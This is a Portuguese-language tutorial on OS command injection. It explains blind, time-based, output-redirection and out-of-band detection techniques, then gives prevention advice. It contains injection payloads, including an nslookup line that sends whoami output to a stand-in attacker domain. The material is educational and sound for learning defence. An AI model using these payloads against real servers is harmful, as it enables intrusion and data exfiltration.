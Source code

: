 <h1>Command Injection</h1>

<h2>O que é o Command Injection? </h2>

A injeção de comando do SO (também conhecida como injeção de shell) é uma vulnerabilidade de segurança da Web que permite que um invasor execute comandos
arbitrários do sistema operacional (SO) no servidor que está executando uma aplicação e, normalmente, compromete totalmente a aplicação e todos os seus 
dados. Muitas vezes, um invasor pode aproveitar uma vulnerabilidade de injeção de comando do SO para comprometer outras partes da infraestrutura 
de hospedagem, explorando relações de confiança para direcionar o ataque para outros sistemas dentro da organização.

<h2>Executando comandos arbitrarios</h2>

Considere que uma aplicação de compras permite que o usuario veja os itens em seu estoque particular. Essa informação é acessada conferme a seguinte URL:

    https://insecure-website.com/stockStatus?productID=381&storeID=29
    
Para fornecer essa informação, a aplicação precisa consultar diversos sistemas. Essa funcionalidade chama uma shell com o argumento do produto e ID da loja:

    stockreport.pl 381 29
    
Essa saida do comando de estoque ṕara determinado item é retornado para o usuario. Desde que a aplicação não tenha defesas contra OS Command Injection, o 
atacante pode submeter a seguinte entrada para executar o comando arbitrario:

    & echo aiwefwlguh &

Se essa entrada for enviada no parametro productID, então temos a execução do comando pela aplicação da seguinte forma:

        stockreport.pl & echo aiwefwlguh & 29

O comando echo exibe a string que foi passada como entrada ecoando isso na saida, acaba sendo uma forma útil de testar tipos de command injection. O caracter & é um comando separador do shell, ele consegue concatenar comandos executando um após o outro. O resultado disso é retornado para o usuario como no exemplo da seguinte forma:

    Error - productID was not provided
    aiwefwlguh
    29: command not found

As 3 linhas de saida demostram que:

<li>O comando stockreport.pl original foi executado sem seus argumentos esperados e, portanto, retornou uma mensagem de erro.</li>
<li>O comando injetado echo foi executado e a string fornecida foi ecoada na saída.</li>
<li>O argumento original 29 foi executado como um comando, o que causou um erro.</li>

Colocar o separador de comando adicional & após o comando injetado geralmente é útil porque separa o comando injetado do que segue o ponto de injeção. Isso reduz a probabilidade de que o que se segue impeça a execução do comando injetado.

<h2>Blind OS command injection vulnerabilities</h2>

Muitas vezes instancias de OS command injection são do tipo blind (cega). Isso significa que a aplicação não retorna saida do comando em uma resposta HTTP. Vulnerabilidades do tipo blind ainda podem ser exploradas, porem usando técnicas diferentes.
Considere que o site permite o usuario enviar um feedback. O usuario entra com o email dele e deixa uma mensagem de feedback. O lado do servidor gera um email para o administrador do site contendo a mensagem. Para fazer isso ele chama fora do programa mail com os seguintes detalhes. por exemplo:

        mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
        
A saida do programa mail (se tiver) não é retornada na resposta da aplicação, e então usamos o echo payload não seria efetivo, Nessa situação, você pode usar uma variedade de técnicas para detectar e explorar uma vulnerabilidade.

<h3>Detectando um Blind OS Commmand Injection usando tempo de espera</h3>

Você pode usar um comando injetado que irá executar um delay, permitindo assim você confirmar que o comando foi executado com base no tempos de espera informado. O ping é um comando efetiivo para fazer isso, ele permite especificar o numero de pacotes ICMP para enviar, e portanto ele leva o tempo necessario para o comando rodar.

        & ping -c 10 127.0.0.1 &
        
Esse comando irá causar na aplicação um loopback no adaptador de rede por 10 segundos. 

<h2>Exploiting blind OS command injection by redirecting output</h2>

Você pode redirecionar a saida do comando injetado para um arquivo dentro da pasta root que você pode que você pode ler atraves do navegador posteriormente. Por exemplo, se uma aplicação serve um recurso estático em um diretorio /var/www/static, então você pode enviar o seguinte comando:

        & whoami > /var/www/static/whoami.txt &

O caracter > envia a saida do whoami para o arquivo especificado. Você pode usar então o navegador para buscar https://vulnerable-website.com/whoami.txt e recuperar o arquivo com a saida do comando.

<h2>Exploiting blind OS command injection using out-of-band (OAST) techniques</h2>

Você pode usar o comando injetado que acionara um interação de rede out-of-band com um sistema que você controla, usando técnicas OAST. Por exemplo:

        & nslookup kgji2ohoyw.web-attacker.com &
        
Esse payload usa o comando nslookup que faz uma consulta DNS para o dominio especificado. O atacante pode monitorar a ocorrencia da consulta solicitada, e assim verificar se o comando foi executado com sucesso.

o canal fora de banda (out-of-band) também prove uma forma facil de exfiltrar a saida do comando injetado.

        & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
        
Isso irá causar uma consulta pelo DNS do sominio contento o resultado do comando whoami.

        wwwuser.kgji2ohoyw.web-attacker.com
        
<h2>Maneiras de injetar comando de sistema</h2>

Há uma variedades de comando que podem ser usados para o ataque de injeção.

Vários caracteres funcionam como separadores de comandos, permitindo que os comandos sejam encadeados. Os seguintes separadores de comando funcionam em sistemas baseados em Windows e Unix:

<li>&</li>
<li>&&</li>
<li>|</li>
<li>||</li>

Os seguintes comandos funcionam apenas em sistemas baseados em Unix:

<li>;</li>
<li>Newline (0x0a ou \n)</li>

Ainda em sistemas Unix-like você pode usar o caracter dolar injetar comandos dentro do comando original:

<li>`whoami`</li>
<li>$(whoami)</li>

Observe que os diferentes metacaracteres do shell têm comportamentos sutilmente diferentes que podem afetar se eles funcionam em determinadas situações e se permitem a recuperação na banda da saída do comando ou são úteis apenas para exploração do tipo blind.

Às vezes, a entrada que você controla aparece entre aspas no comando original. Nessa situação, você precisa encerrar o contexto citado (usando " ou ') antes de usar metacaracteres do shell adequados para injetar um novo comando.

<h2>Como previnir ataques de command Injection?</h2>

A forma mais efetiva de previnir uma injeção de comandos é nunca chamar comandos da camada de aplicação. Existe maneiras alternativas para implementar essa funcionalidade usando plataformas de API segura.

Nunca tente sanitizar a entrada escapando dos metacaracteres do shell. Na prática, isso é muito propenso a erros e vulnerável a ser contornado por um invasor habilidoso.
